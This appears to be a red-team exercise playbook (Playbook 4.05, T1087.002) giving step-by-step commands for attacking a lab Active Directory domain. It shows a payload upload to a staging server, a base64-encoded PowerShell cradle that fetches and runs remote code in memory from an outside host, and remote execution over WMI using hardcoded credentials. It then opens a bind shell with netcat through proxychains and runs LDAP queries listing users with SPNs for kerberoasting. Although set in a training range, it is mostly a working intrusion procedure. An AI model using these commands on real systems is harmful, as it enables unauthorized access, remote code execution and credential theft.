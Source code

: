 # Advanced Enumeration
`[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()`
## **Playbook ID: 4.05** - T1087.002 - Internal Enumeration using [ADSI] - **MSEL Event ID: AT1-5**

Target: it-user10

This will run through the merlin socks5 proxy on the **HTTPS server, Redirector 2, Lane 2** from your **KALI OPERATOR BOX**

1. Download the "something_cool.exe" from the file share: 172.16.2.2:8080/rush_hour/something_cool.exe to your kalib operator box.

2. Upload the something_cool.exe payload to the captain america webstage.

```sh
cd ~/Downloads
curl -k -X POST https://192.168.4.155:443/upload -F "file=@./something_cool.exe" -H "Content-Type: multipart/form-data" -H "Key: ironcatstomorrowneverdies" -v
```

> Use the output to craft the payload in the subsequent steps. Remember just use the random string, not the "/payloads".

1. Prepare to enumerate the IT domain using a subsequent shell, pull back the information to your device and document so you are situationally aware. To do this, prepare another download cradle for the `shell.exe` binary. In contrast to the previous cradle, this will be used to download and invoke the shell in memory. Use the following command to base64 encode the cradle. 

```sh
echo 'try{[net.servicepointmanager]::servercertificatevalidationcallback={$true};[reflection.assembly]::load([net.webclient]::new().downloaddata("https://captainamerica.org/java/<path here>")).entrypoint.invoke(0,((,$null)));}catch{};'|iconv -f ASCII -t UTF-16LE -|base64 -w0 > cradle.txt

echo $(cat cradle.txt)
```

2. Leverage the command to invoke the custom PowerShell runspace within the bind-shell on port 65535 of the it-users-win10 computer (the default port). Replace the `<paste here>` string in the command below with the base64 cradle from the previous step, then execute the command on it-users-win10 using WMI. This will de-chain the previous attack using the Merlin agent from the current enumeration process. Once the command has executed, use proxychains to connect to the shell on port 65535.   

**Change the DOMAIN in the commmand with ## to your Enclave**

```shell 
> proxychains -q impacket-wmiexec -ts -debug -nooutput -silentcommand $DOMAIN/$USER:$PASSWORD@172.23.1.80 \
'c:\windows\system32\wbem\wmic.exe /node:172.23.3.110 /user:"it-nakatomi##.local\webadmin" /password:"Vr6F#x@9c2" /privileges:enable process call create "c:\\windows\\system32\\windowspowershell\\v1.0\\powershell.exe -ex b -w h -enc  <paste here>"'

> proxychains -q nc -v 172.23.3.110 65535
```

_If this doesn't work, within Merlin, run:_

```sh
upload something_cool.exe
run something_cool.exe
```

**IN THE INTERACTIVE SHELL IF YOU HAVE PROBLEMS USE THE COMMAND `reset` AND START AGAIN**


**ENSURE YOU CHANGE THE ## to YOUR ENCLAVE NUMBER**

3. Now that we have fully interactive access in the PowerShell runspace, we will enumerate the IT domain for potential targets. To ensure the commands are executed under a Kerberos authenticated context, use the `[runas.program]` class pre-loaded into the bindshell. The convention for authenticated commands is `[runas.program]::netonly(("<domain>","<username>","<password>","<command>"))`. All other commands will be executed from the local context of the process. 
```

[runas.program]::netonly(("it-nakatomi##.local","webadmin","Vr6F#x@9c2","([adsisearcher]'(&(objectCategory=user))').findall()|convertto-json"));

[runas.program]::netonly(("it-nakatomi##.local","webadmin","Vr6F#x@9c2","([adsisearcher]'(&(objectCategory=Computer))').findall()|convertto-json"));
```
4. Previous enumeration reveals several domain users and computers with Service Principal Names (SPNs). To determine which accounts could be targeted for a kerberoasting attack, perform an LDAP query for all users assigned SPNs in order to generate a list of their SAM account names (this is needed later).  
```
[runas.program]::netonly(("it-nakatomi##.local","webadmin","Vr6F#x@9c2",'[string[]]$sams=([adsisearcher]"(&(objectCategory=user)(serviceprincipalname=*))").findall()|%{$_.properties["samaccountname"]};$sams'));
```


<details><summary> OPTIONAL METHOD THAT IS MORE NOISY USING FULL SHELL</summary>

- 🎯 **Target:** it-user10

This will run through the merlin socks5 proxy, leveraging either schduled tasks or the regcmds in previous events.

1. First you want to enumerate, pull back the information to your device and document so you are situationally aware.
   
   ```ps1
    ([adsisearcher]"objectcategory=user").findall()
    ([adsisearcher]"objectcategory=computer").findall()
    ([adsisearcher]"serviceprincipalname=*").findall().properties.serviceprincipalname
    (([adsisearcher]"serviceprincipalname=*").findall(),properties)|fl*
   ```
   
2. Now with the domain user, collect accounts with SPNs.
 
    ```ps1
    $search = New-Object DirectoryServices.DirectorySearcher([ADSI]"") 
    $search.filter = "(&(servicePrincipalName=*)(objectCategory=user))" 
    $results = $search.Findall() 
    foreach ($results in $results) { $u = $results.GetDirectoryEntry(); $u.name; $u.samaccountname; foreach ($s in $u.servicePrincipalName) { $s; } Write-Host "---";}
    ```
</details>
